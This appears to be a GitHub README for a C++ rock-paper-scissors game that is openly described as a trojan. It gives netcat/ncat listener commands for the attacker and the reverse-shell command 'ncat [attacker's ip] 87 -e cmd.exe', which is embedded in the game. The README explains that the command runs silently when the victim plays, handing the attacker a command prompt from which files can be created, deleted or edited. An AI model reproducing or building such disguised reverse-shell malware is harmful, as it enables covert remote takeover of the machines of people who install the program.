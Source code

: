 # Rock-paper-scissor
This is a rock paper scissor game written in c++ that uses reverse shell to establish connection back to attacker's machine from the target machine.

# Get-started
### Attacker's machine

linux: `nc -lnvp 87`
windows: `ncat -lnvp 87` 
<p><b>NB</b>: 87 is the port number used for listening to incoming connections,</p>

### Target's machine

windows: `ncat [attacker's ip] 87 -e cmd.exe`
<p><b>NB</b>: The command to be executed are embedded in the game and are for windows users who have ncat installed already.</P>

### How it works

The attacker execute the above command to listen for incoming connection and when the user on the target machine opens the game 
and start to play the commands execute themselves without the user acknowledgement and an attacker get connected to target machine and gain access 
to the command prompt. After that, the attacker can carry out some operations to the targeted computer like create files, delete files, edit files,...

### Play The Game

To play the rock,paper,scissor game you first click on the executable file and then follow the instructions required to play the game
that are prompted after clicking on the executable file.
